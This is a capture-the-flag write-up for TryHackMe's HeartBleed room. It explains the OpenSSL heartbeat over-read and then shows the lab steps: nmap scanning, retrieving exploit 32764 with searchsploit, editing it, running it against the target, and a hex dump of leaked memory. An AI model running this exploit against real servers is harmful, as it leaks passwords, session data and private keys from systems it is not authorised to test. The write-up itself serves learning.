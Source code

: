 # THM: HeartBleed

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Room       | HeartBleed                                   |
| URL        | https://tryhackme.com/room/heartbleed        |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- Python
- SearchSploit

## Description

SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?

## Process

This room has 2 parts. The first is information about the HeartBleed bug and what is causing it. The room provides a high level summary of how the bug can exploit memory on the server. There are a few external links that give more information and explain how this is a massive vulnerablity. The 2nd task wants you to exploit HeartBleed on a server to get the flag.

## Task 1 Background Information

I spent a lot of time reading the material and trying to understand the bug. I had to look up more information and I thought I would just provide some additional insights into what is needed to exploit this vulnerability.

It is obvious that this exploit needs SSL or TLS. Since TLS is the successor of SSL and SSLv3 is totally broken I will just talk about using TLS for an https connection in this room.

In order to perform the heartbeat request (the request that causes the HeartBleed attack), you need to have a connection with the server. Below are the minimum requests and responses for a HeartBleed attack.

| Step | Description | Who sends it |
| ---- | ----------- | ------------ |
| 1. | **ClientHello** handshake connection request | **Attacker -> Server** |
| 2. | **ServerHello** (plus cert, etc.) handshake connection response | **Server -> Attacker** |
| 3. | **(TLS Handshake completes)** - now both sides can send encrypted data |  |
| 4. | **Heartbeat** request with **fake large payload length** | **Attacker -> Server** |
| 5. | **Heartbeat** response leaking memory past intended payload | **Server -> Attacker** |

Steps 4 and 5 are at the heart (no pun intended) of this room.

### How the request and response should work

It turns out that a heartbeat request is very simple. The 2 properties that matter are the content and the length of the content. So I send a heartbeat request with these 2 properties to a server:

Content: 'Hello'
Content-Length: 5

The server is suppose to look at the Content-Length property and create a buffer of that length in memory. Then it copies the text in the Content property into that buffer that it just created. Then it copys that buffer into a response and sends the response back to me so that our TLS connection stays alive.

### How HeartBleed works

This vulnerability exists because it trusted user input. In my example above I said that my Content-Length was 5 bytes. But what if I had the same Content and I said that my Content-Length was 65,535 bytes?

This is where the vulnerability. It doesn't check the length of my Content it just blindly trusts that I am sending the correct Content-Length for my Content.

In this case, the server will allocate a 65,535 byte buffer in memory. Keep in mind that deallocated memory still has the values that were in those addresses when the memory was allocated. Then it will copy over the 5 bytes in my Content property. Then it will read all the bytes from the buffer (all 65,535 of them) and copy them to the response that goes back to me.

So now I have all kinds of things that were in memory when I made my request. It turns out that this can be usernames, passwords, sensitive chat logs and emails, environment variables, secret keys for X.509 certificates, critical business documents and more.

## Task 2 Protecting Data In Transit

I added the ip address of the machine to my host file with the alias of target.thm. So the command was:

`echo "10.10.121.123   target.thm" >> /etc/hosts`

I then ran my usual starting nmap command on this machine:

`nmap -p- -Pn -T5 -v target.thm`

Port 443 is up. I didn't bother with the other ports. I knew I needed to exploit the https connection on the box.

I used searchsploit to see if it had a script ready to go. I ran the following:

`searchsploit heartbleed`

It had a few scripts, they were a bit out of date. I expected it since HeartBleed is now a decade old at the time of this writing.

I copied over the first one that was provided by searchsploit to my current directory witht the following command:

`searchsploit 32764 -m`

The `-m` option moves the script to my current directory. 32764 is the exploit id in searchsploit.

I had to comment out 1 line to get this to work. Line 32 is the issue, I changed it from this:

`version.append(['SSL 3.0','03 00'])`

To this:

`#version.append(['SSL 3.0','03 00'])`

Again, SSLv3 is broken and so most servers do not support it. Commenting it out allows the script to try the 3 TLS methods.

I now run the script with python2 (the print calls don't have brackets and that only works with python2). Here is how I run it:

`python 32764.py target.thm -p 443 > output.txt`

Looking through the output.txt file, I see the flag on the right hand side as I scroll down. Here is the output with the key redacted:

```bash
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 6E 67 74 68  ....#.......ngth
  00e0: 3A 20 37 35 0D 0A 43 6F 6E 74 65 6E 74 2D 54 79  : 75..Content-Ty
  00f0: 70 65 3A 20 61 70 70 6C 69 63 61 74 69 6F 6E 2F  pe: application/
  0100: 78 2D 77 77 77 2D 66 6F 72 6D 2D 75 72 6C 65 6E  x-www-form-urlen
  0110: 63 6F 64 65 64 0D 0A 0D 0A 75 73 65 72 5F 6E 61  coded....user_na
  0120: 6D 65 3D 68 61 63 6B 65 72 31 30 31 26 75 73 65  me=hacker101&use
  0130: 72 5F 65 6D 61 69 6C 3D 68 61 78 6F 72 40 68 61  r_email=haxor@ha
  0140: 78 6F 72 2E 63 6F 6D 26 75 73 65 72 5F 6D 65 73  xor.com&user_mes
  0150: 73 61 67 65 3D 54 48 4D 7B 00 00 00 00 00 00 00  sage=THM{#######
  0160: 00 00 00 7D AF 7B 00 28 AF 84 87 27 59 A9 CF EB  ###}.{.(...'Y...
  0170: 74 86 D3 07 00 00 00 00 00 00 00 00 00 00 00 00  t...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
'''
